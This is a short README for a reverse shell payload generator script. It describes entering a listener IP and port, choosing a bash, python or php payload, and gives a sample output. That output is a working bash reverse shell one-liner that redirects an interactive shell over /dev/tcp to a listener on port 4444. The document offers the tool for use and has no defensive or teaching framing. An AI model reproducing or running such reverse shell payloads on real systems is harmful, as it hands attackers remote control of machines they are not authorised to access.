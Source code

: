 # revshell-generator
A simple  python reverse shell  payload generator script 
# just execute the file  ./executable
  chmod +x sblsrvshell

  ./sblsrvshell

# set options
type listener ip and port 
# payload
 select payload option 
(1.bash
 2.python
 3.php ..etc)
 eg : if you need bash hit option number (1)
# output
 sh -i >& /dev/tcp/127.0.0.1/4444 0>&1

